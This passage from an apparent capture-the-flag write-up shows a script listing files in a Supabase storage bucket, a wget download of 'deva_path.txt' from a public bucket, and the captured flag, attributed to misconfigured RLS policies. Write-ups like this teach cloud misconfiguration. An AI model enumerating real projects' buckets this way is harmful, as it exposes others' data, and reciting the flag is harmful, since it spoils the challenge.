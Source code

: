 ```python
            print(file["name"])

        return files

    except Exception as e:
        print(f"Error listing files: {e}")
        raise


# To run the async function, you can use asyncio
import asyncio

asyncio.run(list_files_in_folder())
```

This gives us this result. We notice a file `deva_path.txt`.

```bash
❯ python main.py
Found 7 files:
animal.jpg
asura.jpg
deva_path.txt
.emptyFolderPlaceholder
human.jpg
naraka.jpg
preta.jpg
```

we get the file

```
❯ wget https://qzuqulwyiktbcmtjipsr.supabase.co/storage/v1/object/public/pain-paths/files/deva_path.txt
```

Finally the flag.

```bash
❯ cat deva_path.txt
w1th_public_1n53cur3_bucket5_438da8e103ca6a1015afc1f9de3c13c8}
```

It was all about misconfigured `RLS` policies in supabase and public buckets.

Feel pain. Accept pain. But mostly feel dumb after seeing the solution.

![yay](2.gif)


  [no]:  yes